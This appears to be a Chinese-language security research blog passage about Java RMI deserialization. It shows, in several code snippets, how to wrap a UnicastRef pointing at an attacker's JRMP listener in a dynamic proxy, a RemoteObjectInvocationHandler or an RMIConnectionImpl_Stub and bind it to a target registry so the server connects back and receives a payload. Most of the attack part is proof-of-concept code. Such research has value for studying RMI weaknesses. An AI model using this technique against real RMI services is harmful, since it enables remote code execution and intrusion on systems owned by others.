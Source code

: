 1.动态反射

2.找一个同时继承实现两者的类或者实现Remote，并将UnicastRef类型作为其一个字段

自定义一个反射

```
public static class PocHandler implements InvocationHandler, Serializable {
    private RemoteRef ref;

    protected PocHandler(RemoteRef newref) {
        ref = newref;
    }


    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        return method.invoke(this.ref, args);
    }
}
```

```
UnicastRef unicastRef = generateUnicastRef(jrmpListenerHost, jrmpListenerPort);
Remote remote = (Remote) Proxy.newProxyInstance(RemoteRef.class.getClassLoader(), new Class<?>[]{Remote.class}, new PocHandler(unicastRef));
 registry.bind("2333", remote);
```

![](http://ohsqlm7gj.bkt.clouddn.com/18-9-20/30087933.jpg)

开心，耐着性子接着去找第二种情况，这里真的找了好久好久，刚开始看到UnicastRemoteObject(Remote)，本来想通过设置ref字段去设置UnicastRef,但是一直爆没有该字段，父类的父类的父类(太爷爷类)RemoteObject中有ref字段。但是被申明为transient(不会被序列化，即使被反序列化之后还会为null)。

只能看源码了，找了很久(真的很久)找到了一个RemoteObjectInvocationHandler，本身是InvocationHandler还不会有异常。

```
UnicastRef unicastRef = generateUnicastRef(jrmpListenerHost, jrmpListenerPort);
Remote remote = (Remote) Proxy.newProxyInstance(RemoteRef.class.getClassLoader(), new Class<?>[]{Activator.class}, new PocHandler(unicastRef));
 registry.bind("23333", remote);
```



还有一个RMIConnectionImpl_Stub类，情况2

```
UnicastRef unicastRef = generateUnicastRef(jrmpListenerHost, jrmpListenerPort);
RMIConnectionImpl_Stub remote = new RMIConnectionImpl_Stub(unicastRef);
registry.bind(name, remote);
```

都可以还不报异常，开心。

![](http://ohsqlm7gj.bkt.clouddn.com/18-9-20/22685923.jpg)

## bingo
